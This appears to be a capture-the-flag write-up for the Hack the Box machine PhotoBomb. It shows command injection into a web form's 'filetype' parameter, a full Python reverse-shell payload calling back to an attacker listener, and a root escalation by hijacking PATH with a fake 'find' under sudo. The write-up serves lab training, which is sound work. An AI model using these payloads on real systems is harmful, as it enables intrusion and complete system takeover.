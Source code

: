 ```yaml
---
layout: post
title: WriteUp for PhotoBomb machine from Hack the Box
categories: [HTB]
tags: [Command injection, PATH abuse]
---
```


![](/assets/photobomb/Photobomb.png)

|||
-|-
**Machine** | PhotoBomb
**Vulnerability** | Command Injection
**Explanation** | If we append a system command to the `filetype` parameter in the post request to `/printer`, it will be executed.
**Privilege Escalation Vulnerability** | Writable PATH abuse
**Explanation** | We can run `/opt/cleanup.sh` as root without a password with the ability to change `PATH` environment variable.

# Enumeration

## nmap scan

Initial nmap scan revealed two open ports:

* `80/tcp` : nginx 1.18.0
* `22/tcp` : OpenSSH 8.2p1

```
$ nmap 10.10.11.182 -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-04 12:36 EDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.50 seconds
```

![](/assets/photobomb/01-nmap-version.png)

## Web enumeration

The web server contains the following page:

![](/assets/photobomb/02-port-80-page.png)

I got a basic auth prompt after clicking on `click here!` button.

![](/assets/photobomb/03-port-80-basic-auth.png)

The `Debugger` from the developer tools revealed some credentials `ph0t0:b0Mb!`.

![](/assets/photobomb/04-port-80-basic-auth-creds.png)

I used those credentials to login.

![](/assets/photobomb/05-port-80-basic-auth-login.png)

The login was successful, so I was redirected to `/printer`.

![](/assets/photobomb/06-port-80-printer.png)

I scrolled to the bottom of the page, and found a download button that downloaded the `selected image` with the `filetype` and `dimensions` I selected.

![](/assets/photobomb/07-port-80-img-download.png)

I used `burpsuite` to intersept the request after clicking the `Download` button.

![](/assets/photobomb/08-port-80-download-req-burp.png)

I thought about command injection, so I played arround with the parameters `photo`, `filetype`, and `dimensions`, using the repeater tool

![](/assets/photobomb/09-port-80-download-req-burp-action.png)

The `photo` and `dimensions` came up empty, but not the `filetype`.

What got my attention is the error message when I set an invalid filetype

![](/assets/photobomb/10-port-80-invalid-filetype.png)

and when I inject a command.

![](/assets/photobomb/11-port-80-command-exec-poc.png)

# Initial foothold

I sat up a `netcat` listener on port `1337`

```
$ nc -lnvp 1337
```

![](/assets/photobomb/12-nc-listener.png)

After that, I went back to Burpsuite and injected the following command into the `filetype` parameter to get a reverse shell.

```
python3+-c+'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.37",1337))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")'
```
![](/assets/photobomb/13-payload-burp.png)

I got no response back, but whe I went to my listener I had a reverse shell as the `wizard` user.

![](/assets/photobomb/14-rev-shell.png)

I changed directory to `/home/wizard` and got the user flag

![](/assets/photobomb/15-user-flag.png)

# Privilege Escalation

I checked if this user can run commands as sudo.

```
$ sudo -l
```

![](/assets/photobomb/16-sudo-l.png)

I opened `/opt/cleanup.sh` to see what it does.

```
$ cd /opt
$ ls -l
$ cat cleanup.sh
```

![](/assets/photobomb/17-opt-cleanup-sh.png)

The script is owned by `root` and I don't have write permission over it, so I could not change its content.

From the `sudo -l` output, I knew that I can run `/opt/cleanup.sh` as `root` without a password, and can also set environment variables.

At the last line of `cleanup.sh`, the `find` command is executed.

I created a costum `find` in the `/tmp`

```
$ cd /tmp
$ echo 'bash -p' > find
$ chmod +x find
```

![](/assets/photobomb/18-setup-fake-find.png)

I ran `/opt/cleanup.sh` with sudo, adding `/tmp` at the beginning of `PATH` so the `find` I created will be used instead of the original.

```
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

![](/assets/photobomb/19-root-shell.png)

After the execution I got a root shell.

I moved to `/root` and got the root flag.
